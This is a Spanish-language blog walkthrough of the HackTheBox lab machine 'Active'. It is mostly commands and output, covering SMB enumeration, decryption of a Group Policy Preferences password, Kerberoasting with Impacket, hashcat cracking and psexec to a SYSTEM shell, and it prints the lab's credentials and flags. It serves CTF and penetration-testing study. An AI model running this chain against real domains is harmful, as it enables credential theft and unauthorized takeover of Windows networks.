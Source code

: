
---
title: "Active"
summary: "Active es una máquina de dificultad fácil a media, que cuenta con dos técnicas muy comunes para obtener privilegios dentro de un entorno de Active Directory. Esta máquina nos enseña sobre las preferencias de directivas de grupo y contraseñas y cómo abusar de ellas."
categories: ["Post","Blog",]
tags: ["post","hackthebox","windows"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-06

---

| Información de la máquina | |
| -------------------- | ------------ |
| **Plataforma** | HackTheBox |
| **Sistema operativo** | Windows |
| **Dificultad** | Fácil |
| **IP** | 10.10.10.100 |
- - -
## Enumeración

Comencemos la enumeración con `Nmap`:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001 -sCV --min-rate 2000 -T5 -n -Pn 10.10.10.100 -oN ports

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-04 18:47:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-04T18:48:37
|_  start_date: 2025-01-04T18:21:40
|_clock-skew: -1s
```

Hay bastantes puertos abiertos. Podemos comenzar la enumeración comprobando si hay alguna información sobre los recursos compartidos **SMB**:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ smbclient -N -L \\10.10.10.100 

Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      

```

El recurso compartido _Replicación_ tiene información a la que podemos acceder:

```bash
smb: \> ls

  active.htb                          D        0  Sat Jul 21 00:37:44 2018
```

- - -
## Recopilación de credenciales
Descubrimos una contraseña en `Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml`.

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ cat Groups.xml 

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

El archivo **Groups.xml** se crea automáticamente en el recurso compartido `SYSVOL` cuando se crea una _Preferencia de directiva de grupo_. El archivo contiene información relacionada con los grupos, incluso contraseñas. Estas están cifradas con una clave privada de Microsoft, pero se publicó por accidente.

Esto es bastante antiguo (de alrededor de 2014), pero es un gran conocimiento, ya que si un sistema contiene archivos antiguos que contienen una contraseña cifrada a partir de una _Preferencia de directiva de grupo_, se puede descifrar con la herramienta `gpp-decrypt`.

```bash
┌──(s3n㉿kali)-[~]
└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

Después de encontrar la contraseña para el usuario _SVC_TGS_, deberíamos echar un vistazo a los recursos compartidos a los que no pudimos acceder, como **Usuarios**, para verificar si obtuvimos algún privilegio sobre ellos.

```bash
┌──(s3n㉿kali)-[~]
└─$ smbclient \\\\10.10.10.100\\Users -W active.htb -U SVC_TGS 
Password for [ACTIVE.HTB\SVC_TGS]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 04:39:20 2018
  ..                                 DR        0  Sat Jul 21 04:39:20 2018
  Administrator                       D        0  Mon Jul 16 00:14:21 2018
  All Users                       DHSrn        0  Mon Jul 13 19:06:44 2009
  Default                           DHR        0  Mon Jul 13 20:38:21 2009
  Default User                    DHSrn        0  Mon Jul 13 19:06:44 2009
  desktop.ini                       AHS      174  Mon Jul 13 18:57:55 2009
  Public                             DR        0  Mon Jul 13 18:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 05:16:32 2018
```

Parece que funcionó. Enumeramos nuevamente pero no encontramos nada relevante.

>Podríamos reclamar la bandera de usuario en el directorio SVC_TGS/Desktop pero no lo haré, ya que no contaría en exámenes como OSCP, ya que se necesita un shell interactivo.

Con el usuario _SVC_TGS_ parece que no tenemos una manera de obtener un punto de apoyo en la máquina mientras intentaba usar RDP. Sin embargo, podemos continuar enumerando la red interna ya que tenemos credenciales válidas con este usuario.
- - -
## Kerberoasting
**Kerberoasting** es una técnica de post-explotación que podemos utilizar al evaluar entornos de Active Directory (AD). El objetivo es obtener el hash de contraseña de una cuenta de servicio asociada con un _Service Principal Name_ (SPN). Los SPN son atributos en AD que vinculan de forma única un servicio a una cuenta de usuario, lo que permite la autenticación Kerberos.

En este escenario, como usuarios de dominio autenticados, solicitamos un ticket de servicio Kerberos para un SPN. El controlador de dominio genera el ticket y lo cifra utilizando el hash NTLM de la contraseña de la cuenta de servicio vinculada al SPN. Luego se nos proporciona este ticket. En esta etapa, no necesitamos privilegios elevados, solo una cuenta de usuario de dominio válida para solicitar el ticket.

Una vez que recuperamos el ticket cifrado, podemos descifrarlo sin conexión utilizando herramientas como `Hashcat`. Si tenemos éxito, recuperamos la contraseña de texto simple de la cuenta de servicio.

Podemos intentar verificar los SPN de los usuarios con la herramienta `GetUserSPN` de Impacket:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon/Users_Share]
└─$ sudo impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 09:06:40.351723  2025-01-04 08:22:56.876969             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$00000811e6a2b622980085c3ea266f01$c9cab36b5168bd9a37c25b64bc43aebb6540b44867f3599f0a407d18ad616cf7af9674a71536b36dd1a5010bd6f9bde15ce5e2840134ca36c87da075...8ca32608b5c667b3abeabe5e73fb859a5d002f4ba2472875cf6e40a592e178ad267ae199713a5a84b51b7b52665667ac3e62bb2ab566d2076c7ce31b7f7e25605dc1f4d7854ac3faf219b78b8
```

¡Genial! Ya lo tenemos. Ahora podemos intentar descifrar este hash con `hashcat`:

```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$00000811e6a2b622980085c3ea266f01$c9cab36b5168bd9a37c25b64bc43aebb6540b44867f3599f0a407d18ad616cf7af9674a71536b36dd1a5010bd6f9bde15ce5e2840134ca36c87da075...8ca32608b5c667b3abeabe5e73fb859a5d002f4ba2472875cf6e40a592e178ad267ae199713a5a84b51b7b52665667ac3e62bb2ab566d2076c7ce31b7f7e25605dc1f4d7854ac3faf219b78b8:Ticketmaster1968
```

Encontramos la contraseña del administrador con el valor **Ticketmaster1968**. Podemos intentar abusar de SMB para establecer un shell con `psexec`:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ impacket-psexec Administrator@10.10.10.100        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file zOdNJqkf.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service ROhE on 10.10.10.100.....
[*] Starting service ROhE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Ahora podemos leer ambas flags!:

```powershell
C:\> type C:\Users\SVC_TGS\Desktop\user.txt  
40538eb1a29a0cef0b8d9a4d7a3a387f
```

```powershell
C:\> type C:\Users\Administrator\Desktop\root.txt
b8737ca7bc28f8b9dcce856e5226956d
```


